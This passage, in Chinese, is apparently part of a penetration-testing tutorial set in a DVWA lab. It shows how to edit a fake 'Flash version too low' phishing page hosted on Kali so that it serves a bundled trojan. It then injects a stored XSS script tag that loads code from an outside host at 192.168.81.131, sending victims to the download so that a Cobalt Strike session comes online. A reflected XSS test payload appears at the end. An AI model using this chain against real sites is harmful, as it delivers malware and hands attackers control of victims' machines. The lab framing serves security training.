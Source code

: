 把下面的链接改为 你kali服务器的钓鱼页面地址

![image-20211223145116834](https://gitee.com/xxb667/img/raw/master/img/image-20211223145116834.png)

这个是钓鱼页面

```
vim index.html
```

```
43行 <a hre=" ">  target="_self">立即下载</a>
#这里双引号里面写上你压缩后木马的名字，如果你的是flash.exe  就改成flash.exe
```

![image-20211223145201126](https://gitee.com/xxb667/img/raw/master/img/image-20211223145201126.png)

### 3.构建payload

```
<script src="http://192.168.81.131/Flash/flash.js"></script>
```

![image-20211223145237360](https://gitee.com/xxb667/img/raw/master/img/image-20211223145237360.png)

把代码插入到存储型XSS页面，或者结合上面的代码 把所有的a标签替换为我们的网址

![image-20211223145256193](https://gitee.com/xxb667/img/raw/master/img/image-20211223145256193.png)

此时DVWA  有XSS漏洞的页面就弹窗Flash版本过低。

![image-20211223145307981](https://gitee.com/xxb667/img/raw/master/img/image-20211223145307981.png)

点击OK后 就会跳转到我们的kali 服务器 钓鱼页面。

![image-20211223145319205](https://gitee.com/xxb667/img/raw/master/img/image-20211223145319205.png)

如果用户点击下载，我们捆绑的木马就会下载到用户的电脑上

![image-20211223145332615](https://gitee.com/xxb667/img/raw/master/img/image-20211223145332615.png)

只要用户打开下载的软件 我们的CS 这边就会上线。

![image-20211223145344903](https://gitee.com/xxb667/img/raw/master/img/image-20211223145344903.png)

## XSS  DVWA  Medium级别

### **反射型xss**

直接输入payload:

```
<script>alter(1);</script>
```

![image-20211223150007149](https://gitee.com/xxb667/img/raw/master/img/image-20211223150007149.png)
